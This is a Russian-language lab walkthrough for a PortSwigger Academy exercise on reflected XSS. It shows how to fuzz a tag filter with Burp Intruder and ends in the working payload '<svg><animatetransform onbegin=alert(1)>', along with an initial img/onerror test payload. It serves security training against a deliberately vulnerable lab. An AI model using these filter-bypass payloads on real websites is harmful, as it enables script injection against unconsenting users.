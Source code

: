введем в строку поиска следующую XSS-ку
```
<img src=1 onerror=alert(1)>
```
и найдем в истории поиска данный запрос

Видим, что получили ответ 
```
"Tag is not allowed"
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/13.%20%D0%A1ross-site%20scripting%20(XSS)/14.%20Reflected%20XSS%20with%20some%20SVG%20markup%20allowed/pics%20for%20walkthrough/1.png)
отправим данный запрос в интрудер
```
GET /?search=<§§> 
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/13.%20%D0%A1ross-site%20scripting%20(XSS)/14.%20Reflected%20XSS%20with%20some%20SVG%20markup%20allowed/pics%20for%20walkthrough/2.png)
и перейдем в читлист 
```
https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
```
и в качестве пэйлоадов выберем все тэги, которые принимаются веб-сервером
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/13.%20%D0%A1ross-site%20scripting%20(XSS)/14.%20Reflected%20XSS%20with%20some%20SVG%20markup%20allowed/pics%20for%20walkthrough/3.png)
начнем атаку, и увидим что нам вернулсь 200 статус респонс коды на следующие тэги:
```
title
svg
image
animatetransform
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/13.%20%D0%A1ross-site%20scripting%20(XSS)/14.%20Reflected%20XSS%20with%20some%20SVG%20markup%20allowed/pics%20for%20walkthrough/4.png)

Выберем тэг `svg` (так как по названию лабы он явно должен быть как-то причастен) и `animatetransform`
изменим запрос в интрудере на
```
GET /?search=<svg><animatetransform%20§§=1>
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/13.%20%D0%A1ross-site%20scripting%20(XSS)/14.%20Reflected%20XSS%20with%20some%20SVG%20markup%20allowed/pics%20for%20walkthrough/5.png)
и в качестве элементов листа возьмем все значения из `events` читлиста
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/13.%20%D0%A1ross-site%20scripting%20(XSS)/14.%20Reflected%20XSS%20with%20some%20SVG%20markup%20allowed/pics%20for%20walkthrough/6.png)
и запустим атаку
отсортируем по статус коду, и увидим, что единственное что выдало 200 респонс код, это евент 
`onbegin`
!![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/13.%20%D0%A1ross-site%20scripting%20(XSS)/14.%20Reflected%20XSS%20with%20some%20SVG%20markup%20allowed/pics%20for%20walkthrough/7.png)
соответственно идем в поисковую строку, вводим 
```
<svg><animatetransform onbegin=alert(1)>
```
и получаем сработавшую XSS и уведомление об успешно выполненной лабораторной работе
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/13.%20%D0%A1ross-site%20scripting%20(XSS)/14.%20Reflected%20XSS%20with%20some%20SVG%20markup%20allowed/pics%20for%20walkthrough/8.png)
